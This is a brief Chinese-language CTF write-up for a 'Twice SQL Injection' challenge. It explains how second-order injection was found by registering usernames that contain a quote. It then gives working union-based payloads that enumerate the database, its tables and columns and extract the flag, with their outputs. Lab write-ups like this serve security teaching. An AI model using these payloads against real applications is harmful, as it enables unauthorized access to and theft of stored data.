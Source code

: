 # October 2019 Twice SQL Injection

## 知识点

`SQL注入`

`二次注入`

## 解题

在`register`处注册`admin`，登陆后进入首页`info`修改输入`123`正常显示`123`，`admin'`注册登录后发现报错异常，再使用`admin'#`注册登录后正常，判断是`单引号二次注入`,尝试`union`注入

```sql
' union select database()#

ctftraining

' union select group_concat(table_name) from information_schema.tables where table_schema=database()#

flag,news,users

' union select group_concat(column_name) from information_schema.columns where table_name="flag"#

flag

' union select group_concat(flag) from flag#
```

注册处注入，登录处执行，最终获取`flag`

![](./img/October2019TwiceSQLInjection-1.png)